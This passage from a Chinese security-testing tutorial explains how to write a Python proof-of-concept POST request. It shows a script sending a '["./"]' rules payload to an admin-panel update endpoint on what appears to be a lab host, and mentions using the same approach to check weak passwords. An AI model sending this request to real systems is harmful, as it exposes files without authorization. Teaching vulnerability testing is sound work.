 ![image-20240411155527504](assets/image-20240411155527504.png)

### 2.4.2. 编写`POC`

这里和`Get`请求的`POC`原理基本上是一致，依旧是使用burp插件将上面的内容同步下来，可以看到，在代码中`Post`请求比`Get`请求多了一个`data`参数。

而这个`data`参数中就是我们最后脚本运行的参数，例如如果我们是验证弱口令，那么`data`中就会是：`name：admin，password：admin`这些。

其它的和`Get`请求注释是一样的！

细心的应该看到在`burp`中`data`应该是一串编码，为什么到程序中编程了`[\"./\"]\r\n\r\n`，这里是采用了`url`编码，所以会导致变成了实体。

- `["` 和 `"]`：这是两个引号字符，通常用于字符串的开始和结束。但在这里，它们被用作字符串内容的一部分。
- `./`：这表示当前目录的路径。在文件系统中，`.` 代表当前目录，`/` 是目录分隔符。
- `\r\n`：这是回车和换行符的组合，常用于表示Windows系统中的一行结束。其中，`\r` 代表回车（Carriage Return），`\n` 代表换行（Line Feed）。
- `\r\n` 再次出现：与上面的解释相同，再次表示一行结束。

```python
import requests

url = "http://123.58.224.8:58779/admin.html?s=admin/api.Update/node"

headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
                 "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                 "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
                 "Accept-Encoding": "gzip, deflate, br",
                 "DNT": "1",
                 "Connection": "close",
                 "Content-Type": "application/x-www-form-urlencoded"}

data = {"rules": "[\"./\"]\r\n\r\n"}  ##["./"]

requests.post(url, headers=headers, data=data)
```
